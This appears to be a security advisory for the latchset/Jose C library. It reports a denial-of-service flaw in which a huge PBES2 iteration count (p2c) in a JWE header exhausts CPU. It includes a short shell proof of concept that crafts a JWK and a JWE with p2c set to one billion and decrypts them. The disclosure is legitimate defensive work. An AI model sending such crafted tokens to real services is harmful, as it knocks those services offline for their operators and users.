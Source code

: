 # latch-jose

## Summary

latchset/Jose version 11 allow attackers to cause a denial of service (CPU consumption) via a large p2c (aka PBES2 Count) value in a JOSE header.

## Description

latchset/Jose is a C module implementing JOSE(Json Object Signing and Encrypting) technologies.

The JWE key management algorithms based on PBKDF2 require a JOSE Header Parameter called p2c (PBES2 Count). This parameter dictates the number of PBKDF2 iterations needed to derive a CEK wrapping key. Its primary purpose is to intentionally slow down the key derivation function, making password brute-force and dictionary attacks more resource- intensive.

Therefore, if an attacker sets the p2c parameter in JWE to a very large number, it can cause a lot of computational consumption, resulting in a DOS attack.

## Poc

```sh
echo '{"alg":"PBES2-HS256+A128KW","k":"VHBLJ4-PmnqELoKbQoXuRA","key_ops":["wrapKey","unwrapKey"],"kty":"oct"}' > jwk
echo '{"ciphertext":"aaPb-JYGACs-loPwJkZewg","encrypted_key":"P1h8q8wLVxqYsZUuw6iEQTzgXVZHCsu8Eik-oqbE4AJGIDto3gb3SA","header":{"alg":"PBES2-HS256+A128KW","p2c":1000000000,"p2s":"qUQQWWkyyIqculSiC93mlg"},"iv":"Clg3JX9oNl_ck3sLSGrlgg","protected":"eyJlbmMiOiJBMTI4Q0JDLUhTMjU2In0","tag":"i7vga9tJkwRswFd7HlyD_A"}' > jwe
jose jwe dec -i ./jwe -k ./jwk
```

